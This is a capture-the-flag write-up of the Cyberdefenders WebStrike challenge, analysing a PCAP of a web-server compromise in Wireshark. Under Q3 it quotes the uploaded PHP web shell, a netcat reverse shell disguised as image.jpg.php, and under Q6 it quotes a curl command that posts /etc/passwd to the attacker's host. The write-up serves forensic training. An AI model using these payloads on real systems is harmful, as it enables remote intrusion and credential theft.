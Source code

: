 ```yaml
---
title: '[Cyberdefenders] - WebStrike'
date: '08/04/2024'
lastmod: '08/04/2024'
tags: ['Network Analysis', 'PCAP', 'Wireshark', 'Exfiltration']
summary: 'Here is my writeup for WebStrike challenge that I completed on Cyberdefenders.'
draft: false
author: ['H4shBadG']
---
```


# Summary

An anomaly was discovered within our company's intranet as our Development team found an unusual file on one of our web servers. Suspecting potential malicious activity, the network team has prepared a pcap file with critical network traffic for analysis for the security team, and you have been tasked with analyzing the pcap.

## Q1 - Understanding the geographical origin of the attack aids in geo-blocking measures and threat intelligence analysis. What city did the attack originate from?

IPinfo on the attacker's IP reveals that the attack is from Tianjin, China.

## Q2 - Knowing the attacker's user-agent assists in creating robust filtering rules. What's the attacker's user agent?

Getting that information on a HTTP request and looking at the User-Agent field, I retrieve the one below :

```
Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
```

## Q3 - We need to identify if there were potential vulnerabilities exploited. What's the name of the malicious web shell uploaded?

On packet 63, I can see some uploading on the server as below :

```
-----------------------------26176590812480906864292095114
Content-Disposition: form-data; name="uploadedFile"; filename="image.jpg.php"
Content-Type: application/x-php

<?php system ("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 117.11.88.124 8080 >/tmp/f"); ?>

-----------------------------26176590812480906864292095114--
```

This is a simple reverse shell to the attacker IP

## Q4 - Knowing the directory where files uploaded are stored is important for reinforcing defenses against unauthorized access. Which directory is used by the website to store the uploaded files?

Looking on the TCP stream n*9, I got some information where the webshell is uploaded :

```
HTTP/1.1 200 OK
Date: Thu, 30 Nov 2023 18:44:45 GMT
Server: Apache/2.4.52 (Ubuntu)
Vary: Accept-Encoding
Content-Encoding: gzip
Content-Length: 464
Keep-Alive: timeout=5, max=99
Connection: Keep-Alive
Content-Type: text/html;charset=UTF-8

<!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 3.2 Final//EN">
<html>
 <head>
  <title>Index of /reviews/uploads</title>
 </head>
 <body>
<h1>Index of /reviews/uploads</h1>
  <table>
   <tr><th valign="top"><img src="/icons/blank.gif" alt="[ICO]"></th><th><a href="?C=N;O=D">Name</a></th><th><a href="?C=M;O=A">Last modified</a></th><th><a href="?C=S;O=A">Size</a></th><th><a href="?C=D;O=A">Description</a></th></tr>
   <tr><th colspan="5"><hr></th></tr>
<tr><td valign="top"><img src="/icons/back.gif" alt="[PARENTDIR]"></td><td><a href="/reviews/">Parent Directory</a></td><td>&nbsp;</td><td align="right">  - </td><td>&nbsp;</td></tr>
<tr><td valign="top"><img src="/icons/image2.gif" alt="[IMG]"></td><td><a href="image.jpg.php">image.jpg.php</a></td><td align="right">2023-11-30 13:44  </td><td align="right">102 </td><td>&nbsp;</td></tr>
```

## Q5 - Identifying the port utilized by the web shell helps improve firewall configurations for blocking unauthorized outbound traffic. What port was used by the malicious web shell?

Looking at the reverse shell found in Q3, the reverse shell is communicating on the port 8080. 

```
...nc 117.11.88.124 8080...
```

## Q6 - Understanding the value of compromised data assists in prioritizing incident response actions. What file was the attacker trying to exfiltrate?

Looking through the TCP streams, I found the moment the attacker is accessing the system and trying to get the `passwd` file via POST request.

```
$ curl -X POST -d /etc/passwd http://117.11.88.124:443/
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed

  0     0    0     0    0     0      0      0 --:--:-- --:--:-- --:--:--     0
100   368  100   357  100    11  56774   17[393 bytes missing in capture file].$ 
```